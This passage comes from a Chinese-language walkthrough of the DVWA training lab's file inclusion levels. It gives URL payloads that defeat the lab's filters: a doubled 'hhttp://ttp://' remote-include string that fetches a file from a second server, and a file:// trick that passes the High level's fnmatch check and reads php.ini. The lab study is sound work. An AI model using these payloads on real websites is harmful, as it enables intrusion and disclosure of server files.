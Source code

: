 **远程文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=hhttp://ttp://<服务器B IP地址!!!>/phpinfo.txt` 远程执行命令成功

![image](../../../img/渗透/实验/dvwa/dvwa22.png)

经过编码后的 url 不能绕过替换规则，因为解码是在浏览器端完成的，发送过去的 page 参数依然是http://<IP地址!!!>/phpinfo.txt，因此读取失败。

### High
**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
	// This isn't the page we want!
	echo "ERROR: File not found!";
	exit;
}

?>
```
可以看到，High 级别的代码使用了 fnmatch 函数检查 page 参数，要求 page 参数的开头必须是 file，服务器才会去包含相应的文件。

**相关函数**
- **fnmatch(pattern,string,flags)**

	函数根据指定的模式来匹配文件名或字符串。

	此函数对于文件名尤其有用，但也可以用于普通的字符串。普通用户可能习惯于 shell 模式或者至少其中最简单的形式 '?' 和 '*' 通配符，因此使用 fnmatch() 来代替 ereg() 或者 preg_match() 来进行前端搜索表达式输入对于非程序员用户更加方便。

注：fnmatch 函数适用于 PHP >= 4.3.0，因此 php 版本高于这个才能利用，否则会出现打不开 high 等级页面。

**漏洞利用**

High 级别的代码规定只能包含 file 开头的文件，看似安全，不幸的是我们依然可以利用 file 协议绕过防护策略。file 协议其实我们并不陌生，当我们用浏览器打开一个本地文件时，用的就是 file 协议。

构造 url `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file://C:/phpStudy/PHPTutorial/WWW/DVWA/php.ini`
